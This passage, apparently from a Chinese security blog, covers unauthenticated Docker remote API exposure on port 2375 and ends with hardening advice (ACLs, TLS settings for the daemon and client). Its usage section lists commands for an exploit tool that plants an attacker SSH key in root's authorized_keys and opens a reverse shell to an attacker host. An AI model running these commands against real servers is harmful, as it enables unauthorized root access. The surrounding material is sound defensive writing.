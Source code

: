 ```bash
        1.12.x          1.24
        1.11.x          1.23
        1.10.x          1.22
        1.9.x           1.21
        1.8.x           1.20
        1.7.x           1.19
        1.6.x           1.18

 (default "1.12")
```
### 参数说明：

1. ./remote_api_exp -type=check -target=ip:2375，获取服务器信息，如操作系统，机器名，remote api版本以及docker的安装位置等
1. ./remote_api_exp -type=root -target=ip:2375 -version=1.12.3，在/root/.ssh/authorized_keys写入攻击者的ssh公钥
1. ./remote_api_exp -type=shell -target=ip:2375 -version=1.12.3 -reverse=attackerIp:8888，给攻击者反弹一个shell

### 使用示例：

1. 以root账户登录
![](/media/image/2017/docker/root.png)

1. 获取一个反弹shell
![](/media/image/2017/docker/shell.png)

也许有运维同学觉得这是因为监听在了外网，所以攻击者才有机会攻击，如果我不监听在外网就没有安全隐患了，其实监听在内网也有以下安全隐患：

1. 外网攻击者可以通过WEB应用的SSRF漏洞，间接地攻击内网中的这些未授权的Docker remote api服务；
1. 方便已经攻入内网的攻击者扩大攻击范围；
1. 可能会被内部别有用心的人攻击，然后窃取敏感数据。

### 安全加固
在不必需的情况下，不要启用docker的remote api服务，如果必须使用的话，可以采用如下的加固方式：

1. 设置ACL，仅允许信任的来源IP连接；
1. 设置TLS认证，官方的文档为[Protect the Docker daemon socket](https://docs.docker.com/engine/security/https/)

客户端与服务器端通讯的证书生成后，可以通过以下命令启动docker daemon：
```bash
docker -d --tlsverify --tlscacert=ca.pem --tlscert=server-cert.pem --tlskey=server-key.pem -H=tcp://10.10.10.10:2375 -H unix:///var/run/docker.sock
```
客户端连接时需要设置以下环境变量
```bash
export DOCKER_TLS_VERIFY=1
export DOCKER_CERT_PATH=~/.docker
export DOCKER_HOST=tcp://10.10.10.10:2375
export DOCKER_API_VERSION=1.12
```

## 安全建设
